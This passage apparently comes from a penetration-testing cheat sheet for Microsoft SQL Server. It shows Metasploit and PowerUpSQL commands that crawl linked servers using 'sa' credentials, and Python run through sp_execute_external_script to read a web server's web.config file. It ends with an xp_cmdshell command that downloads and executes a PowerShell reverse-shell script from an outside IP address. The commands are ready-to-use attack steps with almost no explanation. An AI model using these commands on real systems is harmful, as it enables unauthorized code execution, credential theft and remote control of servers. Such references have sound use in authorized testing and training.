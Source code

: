 Crawl links with MSF:

```
msf > use exploit/windows/mssql/mssql_linkcrawler
msf exploit(windows/mssql/mssql_linkcrawler) > set RHOSTS 192.168.1.11
msf exploit(windows/mssql/mssql_linkcrawler) > set USERNAME sa
msf exploit(windows/mssql/mssql_linkcrawler) > set PASSWORD Passw0rd!
msf exploit(windows/mssql/mssql_linkcrawler) > set DEPLOY true
msf exploit(windows/mssql/mssql_linkcrawler) > set VERBOSE true
msf exploit(windows/mssql/mssql_linkcrawler) > run
```

Crawl links with PowerUpSQL:

```
PS > Get-SQLServerLinkCrawl -Instance "sqlsrv01.megacorp.local\SQLEXPRESS" -Username sa -Password "Passw0rd!" -Query "select name from master..sysdatabases"
```




## External Scripts

* [https://docs.microsoft.com/en-us/sql/machine-learning/tutorials/quickstart-python-create-script?view=sql-server-ver15](https://docs.microsoft.com/en-us/sql/machine-learning/tutorials/quickstart-python-create-script?view=sql-server-ver15)
* [https://www.sqlshack.com/how-to-use-python-in-sql-server-2017-to-obtain-advanced-data-analytics/](https://www.sqlshack.com/how-to-use-python-in-sql-server-2017-to-obtain-advanced-data-analytics/)

Enable external scripts:

```
EXEC sp_configure 'external scripts enabled,1';
```

Run Python code:

```
EXEC sp_execute_external_script
@language=N'Python',
@script=N'
with open(''c:\\inetpub\\wwwroot\\web.config'', ''r'') as f:
    print(f.read())
'
```




## Tools



### sqsh

```
$ sqsh -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
1> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')"
2> GO
```
